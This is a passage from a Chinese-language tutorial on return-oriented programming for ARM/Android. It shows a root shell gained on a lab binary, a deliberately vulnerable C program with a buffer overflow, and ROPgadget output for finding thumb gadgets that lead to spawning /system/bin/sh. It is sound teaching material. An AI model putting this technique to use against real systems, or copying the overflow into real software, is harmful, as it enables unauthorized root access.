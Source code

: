 执行效果如下：

```
#!bash
$ python level6.py 
[+] Opening connection to 127.0.0.1 on port 10001: Done
[*] Switching to interactive mode
$ /system/bin/id
uid=0(root) gid=0(root) context=u:r:shell:s0 
```

## 0x02 寻找thumb gadgets

下面我们来看第二个程序level7.c：

```
#!c
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>

char *str="/system/bin/sh";

void callsystem() {
system("id");
}

void vulnerable_function() {
char buf[128];
read(STDIN_FILENO, buf, 256);
}

int main(int argc, char** argv) {
if (argc==2&&strcmp("passwd",argv[1])==0)
callsystem();
write(STDOUT_FILENO, "Hello, World\n", 13);    
vulnerable_function();
} 
```

在这个程序里，我们即使知道密码，也仅仅只能执行”id”这个命令，我们的目标是获取到一个可以使用的shell，也就是执行 `system("/system/bin/sh")` 。怎么办呢？这里我们就需要来寻找可利用的gadgets，先让r0指向 `"/system/bin/sh"` 这个字符串的地址，然后再调用system()函数达到我们的目的。

如何寻找gadgets呢？虽然用ida或者objdump也可以进行查找，但比较费时费力，这里我推荐使用ROPGadget。因为level7默认会编译成thumb指令，所以我们也采用thumb模式查找gadgets:

```
#!bash
$ ROPgadget --binary=./level7 --thumb | grep "ldr r0"
0x00008618 : add r0, pc ; b #0x862e ; ldr r0, [pc, #0x10] ; add r0, pc ; ldr r0, [r0] ; b #0x8634 ; movs r0, #0 ; pop {pc} 0x0000861e : add r0, pc ; ldr r0, [r0] ; b #0x862e ; movs r0, #0 ; pop {pc} 0x0000893e : add r3, sp, #0xc ; movs r1, #0 ; str r3, [sp] ; adds r3, r1, #0 ; bl #0x8916 ; ldr r0, [sp, #0xc] ; add sp, #0x14 ; pop {pc} 0x000090fe : add r3, sp, #0xc ; str r3, [sp] ; movs r2, #0xc ; adds r3, r1, #0 ; bl #0x8916 ; ldr r0, [sp, #0xc] ; add sp, #0x14 ; pop {pc} 0x000093ca : add sp, #0x10 ; pop {r4, pc} ; push {r3, lr} ; bl #0x911c ; ldr r0, [r0, #0x48] ; pop {r3, pc} 0x00008826 : add sp, r3 ; pop {r4, r5, r6, r7, pc} ; mov r8, r8 ; stc2 p15, c15, [r4], #-0x3fc ; ldr r0, [r0, #0x44] ; bx lr …… 
```
